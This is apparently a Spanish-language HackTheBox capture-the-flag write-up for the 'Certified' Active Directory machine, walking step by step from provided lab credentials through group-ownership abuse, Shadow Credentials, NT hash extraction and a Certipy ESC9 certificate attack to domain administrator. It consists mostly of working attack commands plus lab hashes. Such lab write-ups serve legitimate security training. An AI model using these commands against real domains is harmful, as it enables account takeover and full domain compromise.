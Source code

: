 ```yaml
---
layout: single
title: write up Yummy HTB
excerpt:
date: 2025-3-18
classes: wide
header:
  teaser: https://404zzero.github.io/zzero.github.io//assets/images/certified/certified_avatar.png
  teaser_home_page: true
categories:
  - hacking
  - Windows
  - ctf
  - netexect
  - bloodhunt
  - adcs
  - certipy
  - ESC9
  - hackthebox
tags:
  - hacking
  - Windows
  - ctf
  - netexect
  - bloodhunt
  - adcs
  - certipy
  - ESC9
  - hackthebox
---
```


"Certified" es una máquina de dificultad media en HackTheBox que involucra un entorno de Active Directory. Al comenzar, se nos proporcionan credenciales de un usuario inicial que tiene la capacidad de agregarse a un grupo específico. Aprovechando este privilegio, podemos unirnos a dicho grupo y ejecutar un ataque de Shadow Credentials contra otro usuario, lo que nos permite obtener su hash NT. Este segundo usuario también es vulnerable al mismo ataque, permitiéndonos comprometer la cuenta de un tercer usuario. Esta última cuenta tiene permisos para gestionar certificados, lo que abre la posibilidad de explotar la vulnerabilidad ESC9 en el servicio AD CS. A través de esta técnica, logramos escalar privilegios y suplantar la identidad del Administrador del dominio.

lo primero como siempre el escaneo de Nmap

```bash
nmap -p- --open --min-rate 5000 -sT -vvv -n -Pn 10.10.11.41 -oG allports
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241219142548.png)

```bash
nmap -sVC -p53,88,135,139,389,445,593,636,3269,5985,9389,49666,49668,49673,49674,49683,49773 10.10.11.41 -oN ports
```

```bash
9683,49773 10.10.11.41 -oN ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-19 14:25 CET
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 70.59% done; ETC: 14:26 (0:00:12 remaining)
Stats: 0:01:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.66% done; ETC: 14:26 (0:00:00 remaining)
Nmap scan report for 10.10.11.41
Host is up (0.030s latency).

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-12-19 20:25:45Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-19T20:27:14+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-19T20:27:14+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3269/tcp  open  globalcatLDAPssl?
|_ssl-date: 2024-12-19T20:27:14+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  unknown
49668/tcp open  unknown
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  unknown
49683/tcp open  unknown
49773/tcp open  unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-19T20:26:11
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.63 seconds
```


comprovamos las credenciaales del usuario que nos da por defetcto HTB y aparte saco el dominio 
```bash
nxc smb 10.10.11.41 -u 'judith.mader' -p 'judith09'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241219143502.png)

vamos a sacar el bloodhunt de esta mquina para poder usarlo

```bash
python3 bloodhound.py -d certified.htb -ns 10.10.11.41 -u judith.mader -p judith09 -c All --zip
```

nos genera un .zip
yo lo voy a abrir usando la version de docker
![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220115214.png)
descubrimos esta estructura
porlo que podemos intenar ganar acceso a Management y des hay a CA_operartor  y despues ser admin

lo primero es conseguir estar dentro del grupo y conseguir permisos de scritura 

como no tenemos sesion winrm vamos a tener que hacerlo todo desde la terminal 
primero vamos a usar bloodyAD para acer nuestro usuario dueño del grupo
https://github.com/CravateRouge/bloodyAD
(NOTA:  no se porque ahora HTB te da ya los permisos de propietario y escritura pero auna si yo voy a hacer el como se conseguirian)

```bash
python3 bloodyAD.py --host "10.10.11.41" -d 'certified.htb' -u 'judith.mader' -p 'judith09' set owner Management judith.mader
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220120508.png)

ahora vamos a conseguir los permisos de escritura con dacledit.py
https://github.com/fortra/impacket/blob/master/examples/dacledit.py

```bash
python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220121029.png)

perfecto por lo que como tenemos ya estos permisos ya podemos añadir a Management al grupo
para ello vamos a volver a usar bloodAD

```bash
python3 bloodyAD.py --host "10.10.11.41" -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220121534.png)

vale perfecto ahora como somos totalmente del grupo podemos intentar sacar el certificado al usuario management_svc
vamos a usar pywhisker
https://github.com/ShutdownRepo/pywhisker

```bash
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220122103.png)

ahora vamos usar kerberos para intentar conseguir el ticket (TGT) gracias al certificado que emos conseguido

para esto vamos a usar gettgtpkinit gunto al archivo .pfx y la contraseña que nos da
https://github.com/dirkjanm/PKINITtools

```bash
 python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx /home/zzero/certified/content/pywhisker/pywhisker/GMgSVanb.pfx -pfx-pass EwVgr6W570k5CtV5i4tB fuck2.ccache
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220122945.png)
no suelta un erro y es por el tema de zona horaria para solucionarlo hay que hacer lo siguiente

```bash
ntpdate certified.htb
```

volvemos a ejecutar el comando y

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220193054.png)

ya funciono por lo que tenemos ticket y .ccache

ahora ya que tenemos esto podemos intentar sacar el hash nt
para ello vamos a usar getnthash gunto a los datos anteriores
https://github.com/dirkjanm/PKINITtools

lo primero tenemos que declarar la siguiente variable
en mi caso seria asi
```bash
export KRB5CCNAME=/home/zzero/certified/content/PKINITtools/fuck2.ccache
```
tenemos que referncia al .ccache asi 

y ahora ejecutamos de la siguiente forma

```bash
python3 getnthash.py certified.htb/management_svc -key d7964090a53e45440fe4f7dbbfc0f3ad8555820724dc83dbeb1eb6d673f7ed04
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220193550.png)

tenemos hahs por lo que podemos acceder a la mquina 

verificamos que tengamos winrm con el usuario management_svc con netexect

```bash
nxc winrm 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220193752.png)

tenemos acceso pero no nos vale de nada porque es solo para la flag

## root

como tenemos control de management_svc podemos intentar ganar control de ca_operator
lo primero 
vamos a modificar sus credenciales con certipy-ad
https://github.com/ly4k/Certipy

```bash
certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```
![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220194456.png)

tenemos un segundo hash
ahora actualizamos su UPN
```bash
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn administrator
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220194635.png)

pedimos un certificado de administrador
```bash
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220194906.png)

ahora restauramos el NPU original

```bash
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn ca_operator@certified.htb
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220195004.png)

y obtenemos el TGT de admin

```bash
certipy auth -pfx administrator.pfx -domain certified.htb
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220195111.png)

y ya con netexect comprovamos si tenemos acceso

```bash
nxc winrm 10.10.11.41 -u 'administrator' -H '0d5b49608bbce1751f708748f67e2d34'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220195224.png)

